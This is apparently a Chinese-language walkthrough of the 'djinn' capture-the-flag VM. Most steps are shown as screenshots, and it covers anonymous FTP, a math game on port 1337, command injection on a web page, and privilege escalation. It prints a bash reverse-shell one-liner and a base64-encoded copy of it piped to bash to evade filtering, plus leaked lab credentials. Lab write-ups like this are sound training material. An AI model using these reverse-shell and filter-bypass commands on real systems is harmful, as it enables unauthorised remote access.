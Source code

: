 # djinn



![image-20200615205317501](assets/djinn.assets/image-20200615205317501.png)

![image-20200615205617642](assets/djinn.assets/image-20200615205617642.png)

匿名登录ftp，下载所有文件

![image-20200615210051865](assets/djinn.assets/image-20200615210051865.png)

![image-20200615210237687](assets/djinn.assets/image-20200615210237687.png)

得到3个线索

```bash
nitu:81299
@nitish81299
1337端口有一个游戏
```

![image-20200615210502911](assets/djinn.assets/image-20200615210502911.png)

连接被重置。试一下命令行

```bash
nc 192.168.43.251 1337
```

![image-20200615210713538](assets/djinn.assets/image-20200615210713538.png)

需要回答1000次？？看样需要一个脚本。

![image-20200615210914878](assets/djinn.assets/image-20200615210914878.png)

看来只是随机的数学题，做1000次，脚本需要得到题面之后计算。先试试其他。

<img src="assets/djinn.assets/image-20200615211121579.png" alt="image-20200615211121579" style="zoom:50%;" />

一个http

正常测试

![image-20200615211443768](assets/djinn.assets/image-20200615211443768.png)

![image-20200615211639875](assets/djinn.assets/image-20200615211639875.png)

![image-20200615211743505](assets/djinn.assets/image-20200615211743505.png)

虽然命令回显的是403页面，但显然，命令是被执行的。

```bash
bash -i >& /dev/tcp/192.168.43.66/1338 0>&1
```

![image-20200615212120416](assets/djinn.assets/image-20200615212120416.png)

显然，由于一些限制，命令不能被执行，应该是限制了一些字符或命令。我们可以使用base64对命令进行编码。在注入后通过base64解码再传入bash来执行

![image-20200615212734952](assets/djinn.assets/image-20200615212734952.png)

```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQzLjY2LzEzMzggMD4mMQo= | base64 -d | bash
```

![image-20200615212822912](assets/djinn.assets/image-20200615212822912.png)

![image-20200615213348492](assets/djinn.assets/image-20200615213348492.png)

![image-20200615213425972](assets/djinn.assets/image-20200615213425972.png)

```bash
nitish:p4ssw0rdStr3r0n9
```

![image-20200615213706914](assets/djinn.assets/image-20200615213706914.png)

![image-20200615215315359](assets/djinn.assets/image-20200615215315359.png)

![image-20200615215458236](assets/djinn.assets/image-20200615215458236.png)

尝试了很多命令组合，都无法让这个程序达成任何合适的状态

查阅了提示。需要看一下手册。

```bash
man /usr/bin/genie | less
```

![image-20200615221258596](assets/djinn.assets/image-20200615221258596.png)

这个有点过分。。。

![image-20200615221403904](assets/djinn.assets/image-20200615221403904.png)

![image-20200615221830360](assets/djinn.assets/image-20200615221830360.png)

显然又是一个。

在用户目录下发现了这个python脚本的编译后的文件

![image-20200615223218574](assets/djinn.assets/image-20200615223218574.png)

![image-20200615222903612](assets/djinn.assets/image-20200615222903612.png)

python有一个uncompyle6可以帮助我们还原.pyc的代码https://pypi.org/project/uncompyle6/

![image-20200615223745408](assets/djinn.assets/image-20200615223745408.png)

![image-20200615224452587](assets/djinn.assets/image-20200615224452587.png)

![image-20200615224824140](assets/djinn.assets/image-20200615224824140.png)



![image-20200615222755918](assets/djinn.assets/image-20200615222755918.png)
